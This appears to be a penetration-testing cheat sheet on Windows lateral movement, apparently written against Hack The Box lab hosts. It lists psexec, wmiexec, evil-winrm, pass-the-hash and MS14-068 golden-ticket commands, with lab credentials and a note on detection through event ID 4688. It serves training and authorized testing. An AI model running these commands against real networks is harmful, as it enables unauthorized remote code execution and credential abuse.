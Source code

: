 ## psexec
```powershell
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125 
```

## wmiexec
```powershell
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5  
```

Note that this shell environment is not fully interactive, so each command issued will execute a new cmd.exe from WMI and execute your command. The downside of this is that if a vigilant defender checks event logs and looks at event ID 4688: A new process has been created, they will see a new process created to spawn cmd.exe and issue a command. This isn't always malicious activity since many organizations utilize WMI to administer computers, but it can be a tip-off in an investigation

## evil-winrm
```bash
evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161
```

# Pass-The-Hash

## psexec
```bash
psexec administrator@10.10.10.10 -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e
```


# Pass-The-Ticket
goldenPac.py is an exploitation script for the CVE-2014-6324 (MS14-068). If the domain controller is vulnerable, it is possible to forge a Golden Ticket without knowing the krbtgt hash by bypassing the PAC signature verification.

After copy the ticket to /tmp/krb5cc_O

```impacket-goldenPac
impacket-goldenPac HTB.LOCAL/james@mantis.htb.local
```


# SSL

## evil-winrm
```bash
evil-winrm -S -i 10.10.10.103 -u amanda -p Ashare1972 -c cert.cer -k amanda.key 
```